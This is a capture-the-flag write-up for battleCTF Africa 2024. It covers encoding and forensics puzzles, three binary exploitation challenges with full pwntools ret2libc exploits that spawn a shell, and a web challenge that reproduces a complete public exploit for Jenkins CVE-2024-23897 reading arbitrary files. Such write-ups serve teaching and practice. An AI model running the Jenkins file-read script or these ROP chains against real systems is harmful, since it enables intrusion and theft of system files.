



## Misc

### Invite

Navigating to https://x.com/bug_pwn we get this



we unhex it and get this link https://bugpwn.com/invite.ini

```bash
plaintext@archlinux ~> echo "55 57 4e 59 5a 31 63 35 64 7a 52 33 55 57 51 76 5a 57 49 75 64 58 52 31 62 33 6b 76 4c 7a 70 7a 63 48 52 30 61 41 3d 3d 0a 68 74 74
 70 73 3a 2f 2f 62 75 67 70 77 6e 2e 63 6f 6d 2f 69 6e 76 69 74 65 2e 69 6e 69" | xxd -r -p
UWNYZ1c5dzR3UWQvZWIudXR1b3kvLzpzcHR0aA==
https://bugpwn.com/invite.ini⏎ 
```

The file is a base 64 encoded file

```bash
plaintext@archlinux ~/D/ctf> strings invite.ini
H4sIAKvQ/2YC/02TW08bQQyFn+FXHCKk9iXN3C9SEjS7MytVlIsAqUKKVC1JgJRk0yahTf997VC1fUBMduzj48+eh3eTfTud7OezyV4I+rO795N90MOz/WqJH/PNdrHuRj35QfQw76br2aJ7GvVed4/90MN213azdrnu5qNet+7hbHw8PMlX9d39dcHrlpJxe397Vy5AF2+/V+1+1AuyNz4+Onyhm6Oj4XL9tOi6djUfP7S73XI+3T0OB/8+csi3drv9ud7MxqeqPZXqdD59Xcjl3eri8/nNxY35OjPm5fHq5XoflvP2k9id18/d5WJmlpfp4XkzuH++vt5/Hw7+yrCmmW6+UFObX992Y2FhGygHbxArhIzsISJMRKngJKKBzRAePkNqpIQS4C3qDJcgC3yEVMiHc6BbD9WwZiY1j2IgSFNxLp2DQimQAqlG8tAJFQUbVArJIFloh5KgakgHIRAiUkEVoBREhcZCBtQJQkMr1HR2cBVsQBAoNbyA93CF020N67iia5Ayp9cWkW6ptciapnDpKBAtqgomo2T2HCNiYGMkmA2K4r6oC0r3jkuzKwcpkSp4DeeRBDMhq7pGoHYcQ1OSg73kWjlyjCakZFvAVn+gkckouaiMcBriwIHCBBkjA4Kdk7ImZWKu0VAi9VtQEw3SSYwxVMjNARcdyADhItsNGsO068JVSLPRUILh1wpWcYr1PBobWZBKGIdMIpZjuMeaN4FGT1LUOw8u83Dpig5Bw0rmT1I68HxV4nQq4Wgomb9XtD+aDTMKd+jIss/KMzoteMcItW+4HZqg9LwANDuqSGBpKOTNCd4cc+iXBlFlNA2bTBLaM2eaIyEljFGhoXEHdss2AjNnPsShGg7+33t6hwN+iPRCD/+348lm0g1P+n28vcX6jramuflIy6YE4ez3DxG/AVECNBs5BAAA
```

We decode it into a file 

```bash
plaintext@archlinux ~/D/ctf> strings invite.ini | base64 -d > invite
```

The file is a gzip

```bash
plaintext@archlinux ~/D/ctf> file invite
invite: gzip compressed data, last modified: Fri Oct  4 11:25:31 2024, max compression, original size modulo 2^32 1081
```

we change the extension and gunzip it

```bash
plaintext@archlinux ~/D/ctf> mv invite invite.gz
plaintext@archlinux ~/D/ctf> gunzip invite.gz
```

THe file has a password and an encrypted hex

```bash
plaintext@archlinux ~/D/ctf> strings invite
b'\xac\xed\x00\x05t(\x83<?xml version="1.0" encoding="utf-8" standalone="no" ?>
<!DOCTYPE users SYSTEM >
<users max="81">
	<user >
		<loginname>battlectf</loginname>
		<password>$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq</password>
		<4cr_encrypt>05 5F 26 74 9B 8D D7 09 49 EB 61 94 5D 07 7D 13 AA E8 75 CD 6A 1E 79 12 DA 1E 8A E7 2F 5F DB 87 E4 0D D2 13 E4 82 EE 10 AC A7 3A BF 54 B2 A4 A5 36 EA 2C 16 00 89 AE B8 22 0B F5 18 CA 03 32 C8 C6 6B 58 80 EC 70 77 6E 16 5C 56 82 6F AD 0B C5 97 69 E9 B8 4E 54 90 95 BB 4D ED 87 99 98 BF EC D4 E2 8A 0D C5 76 03 89 A6 11 AB 73 67 A0 75 AE 3C 84 B6 5D 21 03 71 B8 D9 A0 3B 62 C0 5B 12 DA 5C 91 87 19 63 02 A4 3B 04 9F E0 AD 75 3E 35 C3 FB 1B 5E CB F0 5A A7 8B DF 00 8B DC 88 24 EF F4 EE CE 5C 3B F3 20 10 C2 52 DF 57 D2 59 5E 3E 46 D0 85 10 89 AC 09 07 EF C5 EE 1D 2F 89 1D 83 51 C6 52 38 13 2A D0 20 66 6D 52 B1 93 1B 21 06 9F E5 00 B7 AB 30 EB 98 7F CB 80 17 36 16 EF 73 BB 59 60 E4 4B F0 8A BD FF 85 A1 37 5D 4E C0 91 92 F2 68 C5 20 68 A0 A7 84 EB</4cr_encrypt>
	</user>
</users>\r\n<!-- battleCTF AFRICA 2024 -->\r\n
```

Cracking the hash with hashcat we get the password `nohara`. and we decode it with cyberchef




## Pwn

### Poj

NX and pie are enabled

```bash
checksec poj 
[*] '/home/plaintext/Downloads/ctf/poj/poj'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./'
```

Decompiling with binary ninja we get this function that prints the address of `write` and calls `sub_115c`

```c
0000117d  int32_t main(int32_t argc, char** argv, char** envp)

0000117d  {
00001195      write(1, "Africa battle CTF 2024\n", 0x17);
000011b3      printf("Write() address : %p\n", write);
000011c4      return sub_115c();
0000117d  }
```

`read` gets `0x100` into `buf`.

```c
0000115c  ssize_t sub_115c()

0000115c  {
0000117c      void buf;
0000117c      return read(0, &buf, 0x100);
0000115c  }
```


The offset is `0x40 + 0x8` = `72`

```c
00001164  488d45c0           lea     rax, [rbp-0x40 {buf}]
```

we extract `write` to calculate libc base. find `system` , `puts` and `/bin/sh`. finally build a rop chain to spawn shell using ret2libc.

```python
from pwn import *
import re
context.update(arch="amd64",os="linux")

filename = './poj'
libc=ELF("./libc.so.6")
e = elf = ELF(filename)

target=remote("challenge.bugpwn.com",1003)

offset=72

target.recv()
banner=target.recv()
write_addr=re.findall(b'0x[a-f0-9]{0,12}',banner)[0]
write_addr=(int(write_addr,0))

libc.address=write_addr - libc.symbols['write']
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
shell=next(libc.search(b'/bin/sh\x00'))
pop_rdi=libc.address + 0x0000000000028215

rop=b""
rop+=p64(pop_rdi)
rop+=p64(shell)
rop+=p64(puts)
rop+=p64(pop_rdi)
rop+=p64(shell)
rop+=p64(system)
payload=b"A" * offset + rop
target.sendline(payload)
target.interactive()
```

Running the code we get the flag

```bash
plaintext@archlinux ~/D/c/poj (2)> python sol.py
[*] '/home/plaintext/Downloads/ctf/poj (2)/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
[*] '/home/plaintext/Downloads/ctf/poj (2)/poj'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./'
[+] Opening connection to challenge.bugpwn.com on port 1003: Done
[*] Switching to interactive mode
/bin/sh
$ ls
flag.txt
libc.so.6
poj
$ cat flag.txt
battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
$ 
```

### Kami
We first patch the binary

```bash
patchelf kami --set-interpreter ./ld-linux-aarch64.so.1 --set-rpath "./" kami
```

No pie and no stack canary

```bash
checksec kami 
[*] '/home/plaintext/Downloads/kami/kami'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3e0000)
    RUNPATH:    b'./'
    Stripped:   No
```

Decompiling with ghidra `fflush` address is leaked and another function kami is called

```c
undefined8 main(void)

{
  int iVar1;
  
  iVar1 = printf("fflush at %p\n",fflush);
  kami(iVar1);
  return 0;
}
```

Kami uses a dangerous function `gets` which can be used for buffer overflow 

```c

/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void kami(void)

{
  char acStack_80 [128];
  
  printf("Welcome to Africa battleCTF.!");
  fflush(_stdout);
  gets(acStack_80);
  return;
}
```

Stack_80 = `0x80` and so the offset is `0x80 + 0x8` = `136`. 

```c
char acStack_80 [128];
```

So we need to extract the leaked address of `fflush` , find the address of `system`, `/bin/sh` and `puts` and lastly the gadgets to call `system(/bin/sh)`.

Using ropper we get these two gadgets to use

```bash
0x0000000000027b38: ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
0x0000000000049620: mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

We then build the exploit

```python
from pwn import *
import re

filename = './kami'
libc=ELF("./libc.so.6")

target=remote("challenge.bugpwn.com",1000)

leak=target.recv()
fflush_leak = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)

libc.address = fflush_leak - 0x00000000006b590
system=libc.address +0x000000000049480
puts=libc.address +0x00000000006da70
exit=libc.address +0x00000000003c760
shell=next(libc.search(b'/bin/sh\x00'))

payload = b''
payload += 128 * b'A'
payload += 8 * b'B'
payload += p64(libc.address + 0x0000000000027b38) 
payload += (8 * 3) * b'C'
payload += p64(libc.address + 0x0000000000049620)
payload += p64(shell)
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)
target.sendline(payload)
target.interactive()
```

Running the code we get the flag

```bash
plaintext@archlinux ~/D/c/kami> python sol.py
[*] '/home/plaintext/Downloads/ctf/kami/libc.so.6'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to challenge.bugpwn.com on port 1000: Done
[*] Switching to interactive mode
$ ls
flag.txt
kami
sh
$ cat flag.txt
battleCTF{0n_Th3_W4yT0_Pwn_IOT_ARM_4f2cc97958831e0481a9a62304b6704a}
```

### Terminal

32 bit binary with no canary and no pie.

```bash
plaintext@archlinux ~/D/ctf> checksec terminal 
[*] '/home/plaintext/Downloads/ctf/terminal'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

Decompiling the code in binary ninja we get this function with a while loop

```c
0804974d  int32_t sub_804974d()

0804974d  {
08049754      void* const __return_addr_1 = __return_addr;
0804975b      void* var_10 = &arg_4;
0804976a      sub_804968c();
0804976a      
0804977b      while (true)
0804977b      {
0804977b          fflush(*(uint32_t*)stdout);
0804978d          void* const var_2c;
0804978d          printf("\x1b[0;32mCLI@RAVEN\x1b[0;37m# ", var_2c);
080497a1          fflush(*(uint32_t*)stdout);
080497a9          sub_8049648();
080497ba          char* eax_3 = strchr(&data_804c060, 0xa);
080497ba          
080497c9          if (eax_3 != 0)
080497ce              *(uint8_t*)eax_3 = 0;
080497ce          
080497da          var_2c = &data_804a244;
080497e2          char* eax_5 = strtok(&data_804c060, &data_804a244);
080497e2          
080497f1          if (eax_5 != 0)
080497f1          {
08049803              char* eax_6 = strtok(nullptr, &data_804a244);
0804981a              char* eax_7 = strtok(nullptr, &data_804a244);
0804981a              
0804983c              if (strcmp(eax_5, "show") != 0)
0804983c              {
0804992c                  var_2c = "clear";
0804992c                  
0804993a                  if (strcmp(eax_5, "clear") != 0)
0804993a                  {
0804994f                      var_2c = "exit";
0804994f                      
0804995d                      if (strcmp(eax_5, "exit") == 0)
0804995d                          break;
0804995d                      
0804997d                      puts("Invalid command. Type 'show help…");
0804993a                  }
0804993a                  else
0804993c                      sub_8049722();
0804983c              }
0804983c              else
0804983c              {
0804984b                  var_2c = &data_804a24b;
0804984b                  
0804985f                  if ((strcmp(eax_6, &data_804a24b) == 0 && eax_7 == 0))
0804985f                  {
08049861                      sub_8049226();
08049866                      continue;
0804985f                  }
0804985f                  
08049874                  var_2c = &data_804a04c;
08049874                  
08049888                  if ((strcmp(eax_6, &data_804a04c) == 0 && eax_7 == 0))
08049888                  {
0804988a                      sub_8049255();
0804988f                      continue;
08049888                  }
08049888                  
0804989d                  var_2c = "down";
0804989d                  
080498b1                  if ((strcmp(eax_6, "down") == 0 && eax_7 == 0))
080498b1                  {
080498b3                      sub_804939c();
080498b8                      continue;
080498b1                  }
080498b1                  
080498c6                  var_2c = "logs";
080498c6                  
080498da                  if ((strcmp(eax_6, "logs") == 0 && eax_7 == 0))
080498da                  {
080498dc                      sub_80494e3();
080498e1                      continue;
080498da                  }
080498da                  
080498ef                  var_2c = "help";
080498ef                  
08049903                  if ((strcmp(eax_6, "help") == 0 && eax_7 == 0))
08049903                  {
08049905                      sub_80495a0();
0804990a                      continue;
08049903                  }
08049903                  
08049916                  puts("Invalid command. Type 'show help…");
0804983c              }
080497f1          }
0804977b      }
0804977b      
08049969      puts("Exiting...");
0804999e      return 0;
0804974d  }
```

It runs this code to get the user input which uses a dangerous function 

```c
08049648  char* sub_8049648()

08049648  {
08049668      void buf;
08049668      read(0, &buf, 0xc8);
0804968b      return strcpy(&data_804c060, &buf);
08049648  }
```

We get the offset is `62`. 0x3a + 4 = 62.

```c
08049662  8d45c6             lea     eax, [ebp-0x3a {buf}]
```

To exploit the binary we need use elf.sym.puts to leak elf.got.strcpy in the got. calculate LIBC base address, get `/bin/sh` , `system` and `puts` address. Create a rop chain to spawn `/bin/sh` using ret2libc. The exploit did not first work because of the libc version in use i used libc.rip using the leaked puts address `0xf7d93aa0` to get a version. i then downloaded https://libc.rip/download/libc6-i386_2.39-0ubuntu8_amd64.so.


We then update the libc version

```python
from pwn import *

filename = './terminal'
e = elf = ELF(filename)

target=remote("20.199.76.210",1005)
libc=ELF("./libc6-i386_2.39-0ubuntu8_amd64.so")
main=0x8049757
offset=62

rop=b""
rop+=p32(elf.plt.puts)
rop+=p32(main)
rop+=p32(elf.got.strcpy)
payload=b"A" * offset + rop
target.sendlineafter(b'#',payload)

leaked_addresses=[]
for i in range(6):
  leaked_addresses.append((hex(u32(target.recv(4).strip().ljust(4,b"\x00")))))

puts_index=(leaked_addresses.index("0x80490d6")) - 1
puts_leak=int(leaked_addresses[puts_index],0)

print("puts address : " + str(hex(puts_leak)))
libc.address=puts_leak-libc.sym['puts']
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
shell=next(libc.search(b'/bin/sh\x00'))

rop=b""
rop+=p32(system)
rop+=p32(exit_fn)
rop+=p32(shell)
payload=b"A" * offset + rop
target.sendlineafter(b'#',payload)
target.interactive()
```

Running the code we get the flag

```bash
plaintext@archlinux ~/D/ctf> python terminal.py
[*] '/home/plaintext/Downloads/ctf/terminal'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
[+] Opening connection to 20.199.76.210 on port 1005: Done
[*] '/home/plaintext/Downloads/ctf/libc6-i386_2.39-0ubuntu8_amd64.so'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
puts address : 0xf7d93aa0
[*] Switching to interactive mode
 $ ls
flag.txt
services.txt
services_logs.txt
terminal
$ cat flag.txt
battleCTF{ret2CLI@dlresolve_a22c24101f31bb15ea7ac818364c980c3fd8ab0a9ed99f023a5c6910a30ee52d}
```

## Forensics

### Do(ro X2 )

Using FTK Imager we use the provided password and we get the flag at `C:\\Users\\Desktop\\Delano\\Documents\\Image`

### Symphony

We are given a file `Note.txt` .Opening the file we get hex code with this first line that appears to have some hex values stripped

```bash
52 49 ❌❌ 6c 26 05 00 10 00 00 00 01 00 01 00 40 1f 00 00 40 1f 00 00 01 00 08 00 64 61 74 61 48 26 05 00 80 83 91 ab cb e3
```

The first two hex code values match with the magic bytes of RIFF.

```bash
52 49 46 46
```

but a RIFF file has a header section that is `52 49 46 46` then the file size in little-endian format that is `6C 26 05 00` then the format identifier `10 00 00 00`. Then we have data chunks that is `64 61 74 61` but no format chunk that was present to describe the audio encoding format and so we need to insert it manually before the data chunk. I assumed a PCM (Pulse-Code Modulation) format.

```bash
Offset 0x0C: 'fmt ' (66 6D 74 20)
Offset 0x10: Subchunk size (0x10 for PCM, meaning 16 bytes for the format chunk)
Offset 0x14: Audio format (0x01 for PCM)
Offset 0x16: Number of channels (0x01 for mono or 0x02 for stereo)
Offset 0x18: Sample rate (e.g., 0x1F40 = 8000 Hz)
Offset 0x1C: Byte rate (SampleRate * NumChannels * BitsPerSample/8)
Offset 0x20: Block align (NumChannels * BitsPerSample/8)
Offset 0x22: Bits per sample (e.g., 8 or 16)
```

Next we need to change the file to match the above pattern

```bash
52 49 46 46 6C 26 05 00 57 41 56 45   ; "RIFF" + file size + "WAVE"
66 6D 74 20 10 00 00 00 01 00 01 00   ; 'fmt ' chunk + size + audio format
40 1F 00 00 80 3E 00 00 01 00 08 00   ; Sample rate + byte rate + block align + bits/sample
64 61 74 61 48 26 05 00               ; 'data' chunk identifier + data size
```

From this

```bash
52 49 46 46 6C 26 05 00 10 00 00 00 01 00 01 00 40 1F 00 00 40 1F 00 00 01 00 08 00 64 61 74 61
```

To this 

```bash
52 49 46 46 6C 26 05 00 57 41 56 45 66 6D 74 20 10 00 00 00 01 00 01 00 40 1F 00 00 80 3E 00 00 01 00 08 00 64 61 74 61
```

Then create a python script to convert the hexcode to a binary file with the extension .wav

```python
def hex_to_wav(input_file, output_file):
    try:
        with open(input_file, 'r') as file:
            hex_data = file.read().replace(' ', '').replace('\n', '')
        
        binary_data = bytes.fromhex(hex_data)
        
        with open(output_file, 'wb') as wav_file:
            wav_file.write(binary_data)
        
        print(f"Successfully created WAV file: {output_file}")
    except Exception as e:
        print(f"Error: {e}")

input_file = 'note.txt'
output_file = 'output.wav'
hex_to_wav(input_file, output_file)
```

Opening the file it sounded like a morse code. https://morsecode.world/international/decoder/audio-decoder-adaptive.html 


The websites gave slightly different output and i had to combine both to try and get the correct flag https://databorder.com/transfer/morse-sound-receiver/


## Agent 47

Running xxd it looks like a corrupted png file so we need to fix it.

```bash
plaintext@archlinux ~/D/ctf> xxd Agent47 | head
00000000: 5089 474e 0a0d 0a1a 0000 0d00 4849 5244  P.GN........HIRD
00000010: 0000 f401 0000 f401 0608 0000 cb00 dfd6  ................
00000020: 008a 2000 4900 4144 7854 ec5e 077d 159c  .. .I.ADxT.^.}..
00000030: d9d5 3bfe e67d bbf6 b285 a594 8a2a 4d20  ..;..}.......*M 
00000040: 1dec 8935 1b1a 8220 53f5 4d11 344c 14d1  ...5... S.M.4L..
00000050: fe53 7e26 d189 5334 c6ec e912 4858 68be  .S~&..S4....HXh.
00000060: 6834 12c4 9445 a76e f4b3 b7ad e9df e7ff  h4...E.n........
00000070: ddcc 3455 b02a dd94 cf65 47e4 ddd6 e53b  ..4U.*...eG....;
00000080: 679c cee6 de73 bcf6 f102 238d c1d0 f010  g....s....#.....
00000090: 5467 22f5 0f92 9522 2204 20eb 6892 c910  Tg"...."". .h...
```

i wrote a python code to fix the image

```python
image_bytes=open('Agent47','rb').read()

final=[]
  
for i in range(len(image_bytes)):
    final.append(b'\x00')
index=0

while index < len(image_bytes):
    byte=image_bytes[index]
    new_index=0
    if ((index % 2) == 0):
      new_index=index+1
    else:
      new_index=index-1
    final[new_index] = byte
    index+=1
byte_array = bytes(int(h) for h in final)

with open('./agent.png', 'wb') as f:
    f.write(byte_array)
```

Running strings on the image we get intersting string `r3FF>7s&vMzAa@1F:71d6Hc@FGD71;@1d8D;5pQehifcO`

```bash 
plaintext@archlinux ~/D/ctf> strings agent.png | tail
<#aB
4mHb
!@XVP
GLO.
9J.&
bU\U3
oQtu
RQkx
r3FF>7s&vMzAa@1F:71d6Hc@FGD71;@1d8D;5pQehifcO
IEND
```

Running ROT 46 we get the flag



## Web
### Jenkins

After opening the challenge We get a login page for jenkins. 


Navigating to http://web.challenge.bugpwn.com:8080/user/admin/ we find the version of jenkins 2.441


Checking for public cve. Found CVE-2024-23897 https://www.exploit-db.com/exploits/51993

```python
# Exploit Title: Jenkins 2.441 - Local File Inclusion
# Date: 14/04/2024
# Exploit Author: Matisse Beckandt (Backendt)
# Vendor Homepage: https://www.jenkins.io/
# Software Link: https://github.com/jenkinsci/jenkins/archive/refs/tags/jenkins-2.441.zip
# Version: 2.441
# Tested on: Debian 12 (Bookworm)
# CVE: CVE-2024-23897

from argparse import ArgumentParser
from requests import Session, post, exceptions
from threading import Thread
from uuid import uuid4
from time import sleep
from re import findall

class Exploit(Thread):
  def __init__(self, url: str, identifier: str):
    Thread.__init__(self)
    self.daemon = True
    self.url = url
    self.params = {"remoting": "false"}
    self.identifier = identifier
    self.stop_thread = False
    self.listen = False

  def run(self):
    while not self.stop_thread:
      if self.listen:
        self.listen_and_print()

  def stop(self):
    self.stop_thread = True

  def receive_next_message(self):
    self.listen = True

  def wait_for_message(self):
    while self.listen:
      sleep(0.5)

  def print_formatted_output(self, output: str):
    if "ERROR: No such file" in output:
      print("File not found.")
    elif "ERROR: Failed to parse" in output:
      print("Could not read file.")

    expression = "No such agent \"(.*)\" exists."
    results = findall(expression, output)
    print("\n".join(results))

  def listen_and_print(self):
    session = Session()
    headers = {"Side": "download", "Session": self.identifier}
    try:
      response = session.post(self.url, params=self.params, headers=headers)
    except (exceptions.ConnectTimeout, exceptions.ConnectionError):
      print("Could not connect to target to setup the listener.")
      exit(1)

    self.print_formatted_output(response.text)
    self.listen = False

  def send_file_request(self, filepath: str):
    headers = {"Side": "upload", "Session": self.identifier}
    payload = get_payload(filepath)
    try:
      post(self.url, data=payload, params=self.params, headers=headers, timeout=4)
    except (exceptions.ConnectTimeout, exceptions.ConnectionError):
      print("Could not connect to the target to send the request.")
      exit(1)

  def read_file(self, filepath: str):
    self.receive_next_message()
    sleep(0.1)
    self.send_file_request(filepath)
    self.wait_for_message()

def get_payload_message(operation_index: int, text: str) -> bytes:
  text_bytes = bytes(text, "utf-8")
  text_size = len(text_bytes)
  text_message = text_size.to_bytes(2) + text_bytes
  message_size = len(text_message)

  payload = message_size.to_bytes(4) + operation_index.to_bytes(1) + text_message
  return payload

def get_payload(filepath: str) -> bytes:
  arg_operation = 0
  start_operation = 3

  command = get_payload_message(arg_operation, "connect-node")
  poisoned_argument = get_payload_message(arg_operation, f"@{filepath}")

  payload = command + poisoned_argument + start_operation.to_bytes(1)
  return payload

def start_interactive_file_read(exploit: Exploit):
  print("Press Ctrl+C to exit")
  while True:
    filepath = input("File to download:\n> ")
    filepath = make_path_absolute(filepath)
    exploit.receive_next_message()

    try:
      exploit.read_file(filepath)
    except exceptions.ReadTimeout:
      print("Payload request timed out.")

def make_path_absolute(filepath: str) -> str:
    if not filepath.startswith('/'):
      return f"/proc/self/cwd/{filepath}"
    return filepath

def format_target_url(url: str) -> str:
  if url.endswith('/'):
    url = url[:-1]
  return f"{url}/cli"

def get_arguments():
  parser = ArgumentParser(description="Local File Inclusion exploit for CVE-2024-23897")
  parser.add_argument("-u", "--url", required=True, help="The url of the vulnerable Jenkins service. Ex: http://helloworld.com/")
  parser.add_argument("-p", "--path", help="The absolute path of the file to download")
  return parser.parse_args()

def main():
  args = get_arguments()
  url = format_target_url(args.url)
  filepath = args.path
  identifier = str(uuid4())

  exploit = Exploit(url, identifier)
  exploit.start()

  if filepath:
    filepath = make_path_absolute(filepath)
    exploit.read_file(filepath)
    exploit.stop()
    return

  try:
    start_interactive_file_read(exploit)
  except KeyboardInterrupt:
    pass
  print("\nQuitting")
  exploit.stop()

if __name__ == "__main__":
  main()            
```

Reading `/etc/passwd` 

```bash
python cve.py -u http://web.challenge.bugpwn.com:8080 -p "/etc/passwd"
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Next was to locate where the flag was. After a few struggles i found the location of the flag

```bash
python cve.py -u http://web.challenge.bugpwn.com:8080 -p "/etc/flag.txt"
battleCTF{I_Tr4vEl_T0_battleCTF_3bb8a0f488816fc377fc0cde93f2e0b1d4c1f9fda09dfaa4962d44d5a09f8fdb}
```